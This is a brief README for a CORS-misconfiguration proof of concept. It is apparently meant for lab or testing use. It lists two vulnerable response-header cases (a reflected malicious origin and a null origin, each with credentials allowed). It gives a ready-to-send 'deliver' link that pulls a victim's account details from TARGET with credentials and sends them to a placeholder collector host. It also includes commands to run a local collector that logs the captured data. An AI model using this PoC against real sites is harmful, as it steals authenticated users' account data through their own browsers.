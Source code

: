 # CORS PoC (local lab)

# case 1 reflections
Access-Control-Allow-Origin: https://malicious-website.com

Access-Control-Allow-Credentials: true

# case 2 null origin
Access-Control-Allow-Origin: null

Access-Control-Allow-Credentials: true

Now you can send a single “deliver” link such as:
https://ythone.github.io/cors_poc/deliver.html?target=https://TARGET/accountDetails&creds=1&exfil=https://your-collector.example/collect

https://ythone.github.io/cors_poc/deliver.html
  ?target=https://TARGET/accountDetails
  &creds=1
  &exfil=https://your-collector.example/collect


Run locally:

npm i
node server.js
# -> POST target data to http://localhost:8089/collect ; view http://localhost:8089/logs


Point your PoC’s exfil to that /collect endpoint.
